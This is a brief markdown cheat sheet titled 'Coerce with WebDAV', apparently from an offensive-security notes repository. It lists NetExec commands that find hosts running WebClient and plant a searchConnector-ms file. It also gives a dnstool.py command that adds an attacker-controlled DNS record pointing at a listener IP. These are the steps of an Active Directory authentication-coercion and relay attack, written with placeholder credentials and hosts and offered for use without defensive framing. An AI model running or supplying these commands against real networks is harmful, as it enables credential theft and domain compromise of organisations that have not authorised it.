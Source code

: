 # Coerce with WebDAV

## Tools: dnstool , CrackMapExec/Netexec

### Commands:

    netexec smb IP -u USER -p PASSWORD -M webdav (Find)

### Start webdav with Documents.searchConnector-ms file

    netexec smb IP -u USER -p PASSWORD -M drop-sc

### Add attack computer in DNS

    dnstool.py -u 'DOMAIN\USER' -p 'PASSWORD' --record 'ATTACK_NAME' --action add --data LISTENER_IP DC_IP
